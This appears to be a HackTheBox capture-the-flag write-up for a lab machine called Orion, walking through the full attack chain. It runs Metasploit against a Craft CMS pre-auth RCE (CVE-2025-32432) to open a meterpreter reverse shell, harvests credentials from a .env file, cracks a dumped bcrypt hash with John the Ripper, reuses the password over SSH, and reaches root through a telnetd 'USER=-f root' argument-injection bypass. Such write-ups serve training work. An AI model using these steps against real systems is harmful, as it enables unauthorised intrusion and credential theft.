










# HackTheBox — Orion (Linux, Hard)

**Target:** `orion.htb` (10.129.46.13)
**OS:** Ubuntu 22.04.4/5 LTS
**Difficulty:** Hard

> **Note on images:** relative image paths (`images/...`) render correctly once this file is opened alongside its `images/` folder — e.g. after extracting the zip, in VS Code, or once pushed to GitHub. They will not render in a chat preview that only has access to the raw markdown text.

---

## 1. Recon

### 1.1 Nmap

```bash
nmap -sC -sV 10.129.46.13 -T4
```



Only 2 ports open:

| Port | Service | Version |
|------|---------|---------|
| 22   | ssh     | OpenSSH 8.9p1 (Ubuntu 22.04) |
| 80   | http    | nginx 1.18.0 (Ubuntu), title: "Orion Telecom" |

Added to `/etc/hosts`:
```
10.129.46.13    orion.htb
```

### 1.2 Web Recon — Landing Page

`http://orion.htb` — a corporate site for "Orion Telecom" (network services for governments/large enterprises).


### 1.3 Directory Fuzzing

```bash
ffuf -u http://orion.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -e .php,.html,.txt
```



Key findings:

| Path | Status |
|------|--------|
| `/admin` | 302 (redirect → login) |
| `/assets` | 301 |
| `/logout` | 302 |
| `index.php` | 200 |

`/admin` redirects to a Craft CMS management panel.

### 1.4 Admin Panel Identification

`http://orion.htb/admin` shows a **Craft CMS 5.6.16** login form ("Orion Telecom Administration — Internal Website Management Portal").



---

## 2. Foothold — CVE-2025-32432 (Craft CMS Pre-Auth RCE)

### 2.1 Vulnerability Research

Craft CMS 5.6.16 is the last vulnerable version before the patch for **CVE-2025-32432** (fixed in 5.6.17). This is a **pre-authentication remote code execution** vulnerability, exploiting a Yii deserialization gadget chain (FieldLayoutBehavior → PhpManager) via the `actions/assets/generate-transform` endpoint, combined with PHP session file poisoning. No credentials are required.

```bash
searchsploit -w craft cms 5.6
searchsploit -m php/webapps/52525.py
```

### 2.2 Exploitation (Metasploit)

```
msf6 > use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
msf6 exploit(...) > set RHOSTS 10.129.46.13
msf6 exploit(...) > set LHOST <tun0 IP>
msf6 exploit(...) > set VHOST orion.htb
msf6 exploit(...) > set ForceExploit true
msf6 exploit(...) > run
```

**Key detail:** since `RHOSTS` is just an IP address, Metasploit sends HTTP requests with the `Host:` header set to that IP by default. Because nginx is configured with name-based virtual hosting (it only routes correctly on `Host: orion.htb`), the exploit fails every time unless `VHOST` is set explicitly (the built-in check even reports "Cannot reliably check exploitability").

After setting `VHOST orion.htb`:

```
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked.
[*] Injecting stub & triggering payload...
[*] Session ID: ...
[*] Meterpreter session 1 opened (attacker:4444 -> 10.129.46.13:...)
```



A **meterpreter session** was obtained running as `www-data` (or equivalent).

---

## 3. Credential Harvesting — `.env` File

Reading the Craft CMS application's `.env` configuration file revealed sensitive data:

```bash
meterpreter > cat .env
```



Key findings:

```env
CRAFT_ENVIRONMENT=dev
CRAFT_SECURITY_KEY=<REDACTED>
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=<REDACTED — MySQL root password>
PRIMARY_SITE_URL=http://orion.htb/
```

> ⚠️ **Note:** `CRAFT_ALLOW_ADMIN_CHANGES=true` is one of the prerequisites for CVE-2025-46731 (Twig SSTI RCE, requires admin access). In practice this path wasn't needed, since password reuse (see Section 4) provided direct system-level access, but it remains a viable alternate route in other scenarios.

### 3.1 Retrieving the Admin Hash from the Database

Using the MySQL root credential from `.env`, the `users` table in the `orion` database was queried (via a full TTY shell):

```bash
mysql -u root -p'<REDACTED>' -e "USE orion; SELECT username,email,password FROM users;"
```



Result:

| username | email | password (hash) |
|---|---|---|
| admin | adam@orion.htb | `$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS` (bcrypt) |

### 3.2 Hash Cracking

```bash
echo '$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS' > hash.txt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



**Result:** the password was cracked successfully — the bcrypt hash fell to `rockyou.txt` in about 6 seconds.

```
Cracked password: <REDACTED>
```

---

## 4. Lateral Movement — SSH as `adam`

The credential recovered from the Craft CMS admin account (`adam@orion.htb`) was tested against the system-level `adam` account directly over SSH, on the assumption of password reuse:

```bash
ssh adam@orion.htb
```



The assumption held — a full interactive SSH session as `adam` was obtained (Ubuntu 22.04.4 LTS).

---

## 5. Privilege Escalation — Telnetd Trust Bypass

### 5.1 Enumeration

```bash
sudo -l
```
```
Sorry, user adam may not run sudo on orion.
```

```bash
netstat -tulnp
```



Among the ports listening only on `127.0.0.1`, one stood out:

```
tcp   0   0   127.0.0.1:23    0.0.0.0:*   LISTEN
```

**Port 23 — telnet**, bound to localhost only. Running telnetd at all on a modern system is a red flag, especially with legacy/insecure configuration.

### 5.2 Exploitation — `USER` Environment Variable Trust

Legacy BSD-style telnet client/server implementations, when used with the `-a` (auto-login) flag, trust the `USER` environment variable sent by the client and pass it directly as an argument to the `login` binary on the server side. If this value isn't sanitized, a crafted value can inject additional flags into `login` — including `-f` (force login, skip password).

```bash
USER="-f root" telnet -a 127.0.0.1
```



Result — **unauthenticated login directly as `root`**:

```
root@orion:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 6. Summary (Attack Chain)

```
Recon (nmap + ffuf)
   └─> Craft CMS 5.6.16 admin panel found (/admin)
        └─> CVE-2025-32432 (pre-auth RCE) exploited via Metasploit
             └─> www-data shell (setting VHOST=orion.htb was critical)
                  └─> MySQL root credential recovered from .env
                       └─> admin bcrypt hash pulled from users table
                            └─> John the Ripper + rockyou.txt cracked the hash
                                 └─> Password reuse confirmed (adam, SSH)
                                      └─> Internal 127.0.0.1:23 (telnetd) discovered
                                           └─> USER="-f root" trust bypass → ROOT
```

**Key takeaways:**
- Don't forget the `VHOST` option in Metasploit modules — in name-based virtual hosting setups it can be the sole reason an otherwise-correct exploit fails.
- Always check `.env` and other configuration files — they frequently leak backend credentials in plaintext.
- Password reuse remains one of the most common ways to escalate from an application-level compromise to system-level access (SSH).
- Legacy or misconfigured services (here, `telnetd`) — even when bound only to localhost — can still hand a local user a direct path to root.

---

*Note: all password and hash values in this write-up are marked `<REDACTED>` or partially masked. Full values are kept in private notes; always scrub credentials before pushing write-ups to a public GitHub repository.*
